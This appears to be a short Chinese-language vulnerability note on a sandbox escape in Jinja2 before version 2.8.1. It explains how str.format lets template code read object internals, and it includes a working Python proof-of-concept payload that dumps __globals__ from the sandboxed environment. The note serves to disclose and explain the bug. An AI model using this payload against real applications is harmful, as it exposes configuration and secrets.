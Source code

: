 参考：
	- https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html#jinja-281
	- https://www.palletsprojects.com/blog/jinja-281-released/

（Jinja2.8.1）

Jinja2在防御SSTI（模板注入漏洞）时引入了沙盒机制，也就是说即使模板引擎被用户所控制，其也无法绕过沙盒执行代码或者获取敏感信息。

但由于format带来的字符串格式化漏洞，导致在Jinja2.8.1以前的沙盒可以被绕过，进而读取到配置文件等敏感信息。

poc
```python
from jinja2.sandbox import SandboxedEnvironment
env = SandboxedEnvironment()
class User(object):
	def __init__(self, name):
		self.name = name
t = env.from_string('{ "{0.__class__.__init__.__globals__}".format(user) }')
t.render(user=User('joe'))
```
成功读取到当前环境所有变量__globals__